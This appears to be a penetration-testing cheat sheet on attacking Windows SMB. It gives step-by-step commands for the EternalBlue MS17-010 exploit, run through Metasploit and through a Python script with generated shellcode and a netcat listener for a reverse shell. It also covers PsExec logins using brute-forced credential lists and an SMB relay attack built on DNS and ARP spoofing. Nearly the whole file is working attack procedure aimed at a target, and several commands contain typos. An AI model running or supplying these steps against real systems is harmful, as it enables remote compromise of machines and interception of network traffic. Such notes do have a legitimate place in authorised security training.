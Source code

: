 # Eternal Blue

## Scan to check if vulnerable
nmap -sV -p 445 --script=sbm-vuln-ms17-010 TARGET

## Metasploit
search eternalblue

(Scanner) auxiliary/scanner/smb/smb_ms17_010

(Exploit) exploit/windows/smb/ms17_010_eternalblue

## AutoBlue-MS17-010
Via github

Have to generate shellcode to exploit

Execute prior 

Generate a stageless payload 

Start netcat listener 
  Nc -nvlp 1234 (port you set up prior)
  
In the eternalblue_exploit directory in a different prompt
  Change mod
  Python eternalblue_exploit7.py TARGET shellcode/sc_x64.bin
  
Will have a connection in the netcat terminal 

# PsExec

(Scan to find supported protocoles and dialets of server) 

nmap -p445 --script smb-protocols TARGET

## start metasploit for login

auxiliary/scanner/smb/smb_login -> set User and Pass File

## Authenticate 

psexec.py user@TARGET cmd.exe (COMMAND)

## Authenticate with metasploit

search psexec
choose module: exploit/windows/smb/psexec -> set SMBuser and SMBpass

# Relay Attack

Start metasploit

search smb_relay

Choose module: exploit/windows/smb/smbrelay -> set SRVHOST, LHOST, SMBHOST

In another tab: 

Echo “TARGET_IP *.DOMAIN” > dns

Point request for domain to our kali linux system

Dnsspoof -i eth1 -f dns

In another tab: 

Enable ip forwarding: Echo 1 > /proc/sys/net/ipv4/ip forward

Arpspoof -i eth1 -t IP GATEWAY

In another tab:

Arp spoof attack: Arspoof -i eth1 -t GATEWAY IP

